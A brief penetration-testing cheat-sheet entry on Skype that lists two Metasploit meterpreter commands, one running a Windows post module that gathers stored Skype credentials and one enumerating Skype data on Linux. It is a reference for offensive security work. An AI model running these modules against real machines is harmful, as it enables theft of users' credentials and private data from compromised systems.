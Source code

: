 # Skype

## 01 - Metasploit

### 1.1 - Windows

`meterpreter > run post/windows/gather/credentials/skype`

### 1.2 - Linux

`meterpreter > run post/multi/gather/skype_enum`